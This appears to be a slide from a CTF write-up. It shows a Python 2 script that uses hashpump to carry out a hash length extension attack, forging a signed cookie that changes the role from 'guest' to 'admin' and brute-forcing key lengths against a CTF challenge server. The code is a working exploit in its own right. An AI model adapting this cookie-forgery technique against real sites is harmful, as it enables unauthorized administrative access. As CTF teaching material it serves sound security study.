

| import os import requests import urllib def rev(s): i=0 r="" while i<len(s): if s[i]=="\\": r+=chr(int(s[i+2:i+4],16)) i+=4 else: r+=s[i] i+=1 return urllib.quote(r[::-1]) for i in range(4,32): tmp=os.popen('''hashpump -s 3a4727d57463f122833d9e732f94e4e0 --data ';"tseug":5:s' -a ';"nimda":5:s' -k '''+str(i)).read() hsh=tmp.split("\n")[0] role=rev(tmp.split("\n")[1]) cookies={"role":role,"hsh":hsh} print cookies if "CTF" in requests.get("http://web.jarvisoj.com:32778/",cookies=cookies).content: print requests.get("http://web.jarvisoj.com:32778/",cookies=cookies).content |
| --- |
# 哈希扩展攻击
尝试使用hashpump